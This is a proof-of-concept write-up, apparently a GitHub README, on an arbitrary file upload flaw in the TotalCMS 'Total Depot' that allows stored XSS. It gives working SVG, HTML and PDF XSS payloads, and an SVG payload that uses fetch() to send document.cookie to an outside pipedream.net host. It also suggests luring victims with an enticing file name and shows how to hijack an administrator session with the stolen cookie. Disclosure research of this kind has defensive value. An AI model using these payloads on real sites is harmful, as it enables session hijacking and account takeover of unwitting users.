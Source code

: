 # TotalCMS Arbitrary File Upload - XSS and steal cookies

## Author: (Sergio)

**Description:** TotalCMS is affected by Arbitrary File Upload - XSS vulnerability which allows Cross-Site Scriting (XSS) and also stealing session cookies

**Attack Vectors:** A vulnerability in "Total Depot" file upload sanitation allows you to upload a PDF / SVG /HTML file with hidden alert Cross-Site scripting (XSS) and steal the user cookies.

---

I am going to do 2 PoCS:
### - POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files

### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.


We start with the first PoC:

### POC 1: Cross-Site scripting (XSS) PDF / SVG and HTML files


When logging into the admin panel (https://www.totalcms.co/demo/total-cms/admin/), we will go to the "Total Depot" off the Administration Site and we upload the PDF/ SVG/ and HTML files with the hidden XSS.


There is the payloads:

### XSS PDF Payload:

It is an XSS payload generated with the JS2PDFInjector tool and a js payload that contains the following content:

```js
app.alert("XSS");
```

### SVG Payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.location);
   </script>
</svg>
```

### HTML Payload:

```js
<html>
	<script>
		alert(document.cookie);
	</script>
</html>
```


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/59567372-3336-4efd-aa24-2293ee2018c3)



![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/bfbddc70-9021-4fdb-9ed5-63eed29f25ce)


Once uploaded, if we click on the link we can see the path where they are stored:

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eedf4cdb-6401-4e64-8cab-479f9cedfcec)


PATH of the files:


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/fc975779-4e50-4408-8947-42927049faf1)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/9dec0ba5-17e9-4ddb-b917-2657b1ee21ed)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8a1be3fe-bbb8-47e3-8d4f-5933df2af82a)



And this is the result with the Cross-Site Scripting (XSS) of the 3 types of files and with the user's cookies:


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f5ef6c07-c3ee-44fd-b999-266a654d8d29)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ce05700f-1dda-4275-a40a-1944bef4bb36)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/8e84bc6e-e5f0-43b5-9f63-b93a41167baa)



We continue with the second PoC:


### - POC 2: Theft of user cookies and forwarding to an external server to intercept them and impersonate the user.

We are going to pretend that we are a cybercriminal and we are going to steal the user's session cookies and they will be sent to the server.

In this case I have uploaded a file as PoC but in a real case, we can upload a file with an interesting name "NBA Tickets" and publish it, so that the victim user sends me the cookies when executing the file, without realizing it. of it.

<br>

Firs of all, we perform a test to see if we have communication with an external server.


There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script xlink:href="https://enbjn0l9vbowi.x.pipedream.net/" />     
<script>       
//<![CDATA[         
alert("XSS");       
]]>     
</script>   
</svg>
```

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/eaa232df-c43d-48a7-a75a-653b86f55f9f)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/ffd7cced-e6a5-4034-ace5-8e2729523f85)


As we see in the pipedream Request, we have obtained the request correctly.


We modify the payload to steal cookies and send them to the pipedream Request, so that we can impersonate the user.


There is the payload:

```js
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
"-//W3C//DTD SVG 1.1//EN"
"http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg width="200"        
height="200"        
zoomAndPan="disable"        
xmlns="http://www.w3.org/2000/svg"        
xmlns:xlink="http://www.w3.org/1999/xlink"        
xml:space="preserve">
<!-- Script linked from the outside-->     
<script>
  fetch('https://enbjn0l9vbowi.x.pipedream.net/', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>   
</svg>
```

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/f4ac2d48-f957-4c5d-a173-053ba3097aec)


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/a6dae6e1-d139-4aa7-8d02-f62fea31232e)



As we see in the image, we have correctly obtained the user's session cookies.


Now we are going to impersonate the user. To test it, we open a session to TotalCMS/admin in another browser and open the "Cookie Editor" addon.


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/00cd865a-e329-496e-ac26-24970fe4b617)


We modify the session cookie to the one obtained in pipestream and save.


![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/2d9a2f2b-7c82-41a1-b7bb-0e778bf33b9d)



We reloaded the website and we have impersonated the administrator user.

![image](https://github.com/sromanhu/TotalCMS-Arbitrary_File-Upload--XSS_Steal_Cookies---TotalDepot/assets/87250597/7eaf4ac6-3725-4351-a4d6-9b2a92a93922)






</br>

### Additional Information:
https://www.totalcms.co/

https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
